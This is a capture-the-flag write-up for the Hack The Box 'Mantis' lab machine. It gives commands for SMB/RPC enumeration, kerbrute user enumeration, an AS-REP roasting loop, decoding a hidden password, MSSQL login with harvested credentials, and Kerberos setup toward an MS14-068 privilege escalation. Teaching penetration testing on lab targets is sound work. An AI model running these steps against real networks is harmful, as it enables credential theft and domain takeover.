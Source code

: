```yaml
---
description: https://app.hackthebox.com/machines/98
---
```


# 🍏 Mantis

<figure><img src="../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>

I'll start with a quick nmap scan and then look deeply into each open ports ->

```
nmap -p 53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,10475,26347,49152,49153,49154,49155,49157,49158,49164,49165,49171,50255 -sC -sV 10.129.20.149 -Pn
```

<figure><img src="../../.gitbook/assets/image (724).png" alt=""><figcaption></figcaption></figure>

we quickly enumerate smb:

```
smbmap -H 10.129.20.149
smbclient -N -L 10.129.20.149
```

<figure><img src="../../.gitbook/assets/image (725).png" alt=""><figcaption></figcaption></figure>

Both `smbmap` and `smbclient` seem to authenticate anonymously, but return no shares

Now let's enumerate RPC (445)

```
rpcclient -U '' -N 10.129.20.149
querydispinfo
enumdomusers
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration" %}

<figure><img src="../../.gitbook/assets/image (726).png" alt=""><figcaption></figcaption></figure>

Now let's look for valid users ->:

```
kerbrute userenum --domain htb.local /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.20.149
```

Good we found some stuff:

<figure><img src="../../.gitbook/assets/image (728).png" alt=""><figcaption></figcaption></figure>

Now let's test out for ASP-Roasting with `GetNPUser`

<figure><img src="../../.gitbook/assets/image (727).png" alt=""><figcaption></figcaption></figure>

```
for user in $(cat users); do GetNPUsers.py htb.local/${user} -no-pass -dc-ip 10.129.20.149 2>/dev/null | grep -F -e '[+]' -e '[-]'; done
```

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

1. `for user in $(cat users)`: This loops through each line of the file called "users" and assigns the line to the variable "user".
2. `do GetNPUsers.py htb.local/${user} -no-pass -dc-ip 10.129.20.149 2>/dev/null`: This runs the GetNPUsers.py script for each user in the "users" file, using the domain "htb.local" and the IP address "10.129.20.149" as the domain controller. The "-no-pass" option is used to specify that no password will be provided. The `2>/dev/null` part is used to redirect any error messages to the null device, effectively hiding them from the user.
3. `| grep -F -e '[+]' -e '[-]'`: This pipes the output of the previous command to the grep command, which is used to filter the output to only show lines that contain either the "\[+" or "-" characters. These characters are used to indicate whether the script was able to extract a valid NTLM hash for the user or not.

We look at the http web page on port 8080:

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

then we see :

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

Maybe there is something to look on this side ->:

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

But let's continue enumeration

port 1337 was open&#x20;

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir -u http://10.129.20.149:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 
```

Bingo&#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

i click on the first one and see some steps for setting up the server:

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

beware of sneaky traps, scroll down ->

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption><p>010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption><p>sNEAKY</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (730).png" alt=""><figcaption><p>@dm!n_P@ssW0rd!</p></figcaption></figure>

We then go to&#x20;

```
10.129.147.242:8080/admin
```

<figure><img src="../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

and are able to login with those creds

<figure><img src="../../.gitbook/assets/image (732).png" alt=""><figcaption></figcaption></figure>

looking at the nomenclature of the file name was a bit wierd:

<figure><img src="../../.gitbook/assets/image (733).png" alt=""><figcaption></figcaption></figure>

so I copied and pasted it in cyberchef and let the magic do his thing:

<figure><img src="../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>

another way of doing it is:

```
echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (735).png" alt=""><figcaption></figcaption></figure>

since the content of the file Id'd admin, i'll try connecting to mysql (1433) with admin/m\$$ql\_S@\_P@ssW0rd!:

```
mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.129.147.242'
```

<figure><img src="../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

But CLI is not the best so let's use GUI with `dbeaver`

<figure><img src="../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>

then we start looking at every file and looking at the data :

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption><p>james/ J@m3s_P@ssW0rd!</p></figcaption></figure>

this brings a new perspective for our enumeration ->

to connect via RCP with rpcclient with credentials:

```
rpcclient -U htb.local/james 10.129.157.60
```

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

With a user, now I can dump the full list of ASP-REP vulnerable users

```
GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
```

nothing to be found on this side:

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

> After striking out on more exploitation, I started to Google a bit, and eventually found [this blog post](https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html) about MS14-068. Basically it’s a critical vulnerability in Windows DCs that allow a simple user to get a Golden ticket without being an admin. With that ticket, I am basically a domain admin.

{% embed url="https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html" %}

install the Kerberos packages:

```
apt-get install krb5-user cifs-utils
```

in `/etc/hosts`

```
10.10.10.52 mantis.htb.local mantis
```

in `/etc/resolv.conf`

```
nameserver 10.10.10.52
```

in `/etc/krb5.conf` (information about the domain)

```
[libdefaults]
    default_realm = HTB.LOCAL

[realms]
    htb.local = {
        kdc = mantis.htb.local:88
        admin_serve = mantis.htb.local
        default_domain = htb.local
    }
[domain_realm]
    .domain.internal = htb.local
    domain.internal = htb.local
```

`ntpdate 10.10.10.52` to sync my host’s time to Mantis, as Kerberos requires the two clocks be in sync.

```
kinit james
klist
```

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>

Let's try to connect to C$ ->

```
smbclient -W htb.local //mantis/c$ -k
```

but it does not work

